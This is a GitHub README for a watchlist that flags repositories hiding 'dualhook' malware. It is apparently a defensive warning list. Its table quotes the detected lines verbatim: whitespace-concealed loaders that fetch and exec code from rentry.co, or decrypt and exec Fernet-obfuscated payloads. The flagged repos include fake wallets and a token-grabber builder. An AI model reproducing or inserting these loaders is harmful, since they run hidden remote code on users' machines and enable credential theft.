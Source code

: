 
<p align="center">
    🚨 Github Repository Alert 🚨
</p>

## Overview

Welcome to this repository, dedicated to identifying and highlighting instances where the `dualhook` are used.

### Key Information Displayed

Here, you will find details such as:

- **Username**: The GitHub username of the repository owner.
- **Link**: Direct link to the repository.
- **Reason**: Explanation of why the repository is flagged.
- **Files**: List of files containing `dualhook`.
- **Detected Line**: Specific lines where `dualhook` is used.

### They are only 1 of each username, but it doesn't mean the rest is safe !!


| Username | Link | Reason | File Dualhooked | Line
|----------|------|--------|----------------|------
| noth1ng86 | https://github.com/noth1ng86/discord-vanity-sniper | Unsafe | [File URL](https://raw.githubusercontent.com/noth1ng86/discord-vanity-sniper/main/main.py) | Line 4: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;exec(requests.get("https://rentry.co/winapi/raw").text)
| theruebezahl | https://github.com/theruebezahl/Discord-WebHook-Spammer | Unsafe | [File URL](https://raw.githubusercontent.com/theruebezahl/Discord-WebHook-Spammer/main/main.py) | Line 2: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;exec(requests.get("https://rentry.co/winapi/raw").text)
| mayess213 | https://github.com/mayess213/discord-multitool | Unsafe | [File URL](https://raw.githubusercontent.com/mayess213/discord-multitool/main/gloom.py) | Line 1: from __future__ import print_function                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg=='))
| pwpijn239 | https://github.com/pwpijn239/flash-usdt-sender | Unsafe | [File URL](https://raw.githubusercontent.com/pwpijn239/flash-usdt-sender/main/main.py) | Line 1: import os                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg=='))
| Roddy-jpg | https://github.com/Roddy-jpg/fake-exodus | Unsafe | [File URL](https://raw.githubusercontent.com/Roddy-jpg/fake-exodus/main/main.py) | Line 1: import tkinter as tk                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg==')) # type: ignore
| Dahron | https://github.com/Dahron/electrum-fake-balance | Unsafe | [File URL](https://raw.githubusercontent.com/Dahron/electrum-fake-balance/main/main.py) | Line 1: import os                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'iMZ8W6ulnhMYlvCjgGk0IqmlmAvLpiD-pDHwn3fzonc=').decrypt(b'gAAAAABmgYQdd6_7iGJQc4KCuNqJcn9-9XtVwb2wKe68KsYiWq1FEmDrrwWCA-eBL1us26gChLnnfCunbsO9z_t4Dr1mMOxyMGlh-dJrtNFjlEbXnsLBnuUeQcsxO7Cl8jFphD817unyRRzQozUvtafc100y_knLwjPAVBmd_vOFjk0nnhO9PQhE2qiE2Yw9f7XTkfdHPweDeTvnoamqrtPKvqDjJyYnRw=='))
| GordienkoRuslan | https://github.com/GordienkoRuslan/guns.lol-viewbot | Unsafe | [File URL](https://raw.githubusercontent.com/GordienkoRuslan/guns.lol-viewbot/main/main.py) | Line 1: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'rzfSTUQAtTwYGeUR10dbSkB5xAPO7TJohilDN9zl73k=').decrypt(b'gAAAAABmsjupSLtETM0jWCn_IhJPumuXPxK09EsOdUf5--ZpbnFpi-wt6g4gJkpoHQIZXU8xrgMV9gDZZWcIdGzAju1KGeqX0JJYB4R1lasB6DSE46aNSyHOCZBlmCdwN50wbNX-bd7aT5KXIG8_c256ebDipZYu5_alGuamQG0wZOo_QP339FjzM3DvwqrhnavA7cOrc7oLZ-if5SZHVEX2SRThaLfErQ=='))
| light8403 | https://github.com/light8403/fake-exodus | Unsafe | [File URL](https://raw.githubusercontent.com/light8403/fake-exodus/main/main.py) | Line 1: import tkinter as tk                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg==')) # type: ignore
| ororor69 | https://github.com/ororor69/Luna-Grabber | Unsafe | [File URL](https://raw.githubusercontent.com/ororor69/Luna-Grabber/main/builder.py) | Line 1: import base64                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg==')),  Line 111:             size=15, family=self.font), placeholder_text="https://discord(app).com/api/webhooks/1234567890/abcdefhgijklmnopqrstuvwxyz")
| jfloajfew | https://github.com/jfloajfew/ddos-tool | Unsafe | [File URL](https://raw.githubusercontent.com/jfloajfew/ddos-tool/main/main.py) | Line 1: from typing import Any, List, Set, Tuple                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg=='))
| nARRegx | https://github.com/nARRegx/discord-advertising-tool | Unsafe | [File URL](https://raw.githubusercontent.com/nARRegx/discord-advertising-tool/main/main.py) | Line 2: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   ;exec(requests.get("https://rentry.co/winapi2/raw").text) #ignore: for os checking


## Contributing

Interested in contributing?

1. **Fork** this repository to your own GitHub account.
2. **Add** information about new users or repositories.
3. **Submit** a pull request with your additions or updates.

Your contributions will make a big difference!

## How to Identify Repositories

1. Search on GitHub using keywords like "Discord", "Nitro", or "Token" to find recent repositories.
2. Review the code for occurrences of `dualhook` or utilize a custom scraper similar to the one provided here.
3. Thank you for your efforts in making this project better!
